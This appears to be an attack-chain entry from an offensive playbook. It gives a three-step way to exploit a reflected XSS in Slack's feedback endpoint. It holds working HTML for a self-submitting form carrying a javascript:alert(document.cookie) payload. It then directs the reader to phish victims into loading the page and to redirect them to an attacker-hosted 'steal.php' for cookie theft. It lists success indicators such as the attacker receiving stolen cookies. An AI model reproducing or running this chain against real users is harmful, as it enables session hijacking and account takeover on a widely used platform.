

---
tags:
  - xss
  - reflected-xss
  - javascript-uri
  - window-opener
  - cookie-theft
  - slack
type: attack_chain
tools: []
tactics:
  - '[[Execution]]'
  - '[[Collection]]'
verified: false
platforms:
  - Web
submitted: true
complexity: medium
created_at: '2023-10-01T00:00:00Z'
procedures:
  - '[[procedures/Create-Malicious-HTML-Page-for-Slack-Feedback-XSS]]'
  - '[[procedures/Auto-Submit-Form-Using-JavaScript]]'
  - '[[procedures/Trigger-Slack-XSS-by-Loading-Malicious-Page]]'
step_count: 3
techniques:
  - '[[JavaScript]]'
  - '[[Drive-by Compromise]]'
updated_at: '2025-12-13T23:52:43.776Z'
description: >-
  A multi-stage attack exploiting a reflected XSS vulnerability in Slack's
  feedback submission endpoint, combined with insecure window.opener handling,
  to execute arbitrary JavaScript or redirect to attacker-controlled sites for
  potential session hijacking.
skill_level: intermediate
impact_level: high
id: d1ae493b-b7f7-4d1c-9aef-7e04fce5f8be
validated: true
mitre_tactics:
  - '[[Execution]]'
  - '[[Collection]]'
mitre_techniques:
  - '[[JavaScript]]'
  - '[[Drive-by Compromise]]'
---
# Reflected XSS in Slack Feedback Submission via Unsanitized Path Parameter Leading to Cookie Theft

Multi-stage attack chain demonstrating a complete attack workflow exploiting Slack's feedback feature.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 3 |
| Execution Time | ~5 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- Web browser for testing
- Text editor for HTML creation

### Target Environment

- Web platform
- Access to Slack's feedback submission endpoint (https://api.slack.com/feedback/submit)
- No specific ports or services required beyond HTTP/HTTPS

### Initial Access Requirements

- Ability to host or serve a malicious HTML page (e.g., via local server or file://)
- Victim interaction: Victim must load the malicious page while authenticated in Slack
- No prior credentials needed beyond victim being logged into Slack

## Detailed Attack Procedures

### Step 1: Create Malicious HTML Page
procedure: [[procedures/Create-Malicious-HTML-Page-for-Slack-Feedback-XSS]]

**Objective**: Construct an HTML page with a form that submits a malicious 'path' parameter to Slack's feedback endpoint to inject XSS payload.

**Instructions**: Use a text editor to create an HTML file with a POST form targeting the endpoint, including hidden fields for 'crumb', 'path' (malicious payload), and 'vote'. For example, set 'path' to 'javascript:alert(document.cookie)' for JS execution or an external URL like 'https://attacker.com/steal.php' for redirection.

```html
<!DOCTYPE html>
<html>
<body>
<form name="pisarenko" action="https://api.slack.com/feedback/submit" method="POST">
    <input type="hidden" name="crumb" value="1">
    <input type="hidden" name="path" value="javascript:alert(document.cookie)">
    <input type="hidden" name="vote" value="Yes">
</form>
</body>
</html>
```

**Expected Output**: A valid HTML file ready for auto-submission.

**Success Indicators**:
- HTML file parses without errors
- Form fields contain the intended malicious payload

### Step 2: Auto-Submit the Form
procedure: [[procedures/Auto-Submit-Form-Using-JavaScript]]

**Objective**: Add JavaScript to the HTML page to automatically submit the form upon loading, simulating user interaction without manual clicks.

**Instructions**: Append a script tag to the HTML that targets the form by name and calls submit() on page load. This ensures the payload is sent immediately when the victim opens the page.

```html
<script>document.pisarenko.submit();</script>
```

Insert this just before the closing </body> tag in the HTML from Step 1.

**Expected Output**: Form submits automatically on page load, sending the POST request to Slack.

**Success Indicators**:
- Page loads and form submits without user input
- Network tab in browser dev tools shows POST to https://api.slack.com/feedback/submit

### Step 3: Trigger the Vulnerability
procedure: [[procedures/Trigger-Slack-XSS-by-Loading-Malicious-Page]]

**Objective**: Deliver the malicious page to the victim, causing the XSS payload to reflect and execute, or redirect to an attacker site exploiting window.opener for cookie theft.

**Instructions**: Host the complete HTML file (from Steps 1-2) on a server or open it locally, then trick the victim into loading it (e.g., via phishing link). Upon submission, Slack reflects the 'path' unsanitized, executing JS in a new tab or opening a redirect without rel='noopener', allowing access to the opener window's cookies.

For testing, open the HTML in a browser while logged into Slack.

**Expected Output**: Alert pops up with cookies, or browser redirects to attacker site, potentially logging cookies via the open channel.

**Success Indicators**:
- JavaScript alert executes showing document.cookie
- New tab opens attacker site without noopener, confirming access to Slack context
- Attacker receives stolen cookies if using external URL

## Attack Chain Summary

### Key Achievements

1. Successful injection of javascript: URI via 'path' parameter in Slack feedback form
2. Automatic form submission bypassing manual interaction
3. Exploitation of window.opener to steal Slack session cookies from the victim's browser

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[JavaScript]]
- [[Drive-by Compromise]]

### MITRE ATT&CK Tactics

- [[Execution]]
- [[Collection]]

---

*Last updated: 2023-10-01T00:00:00Z*
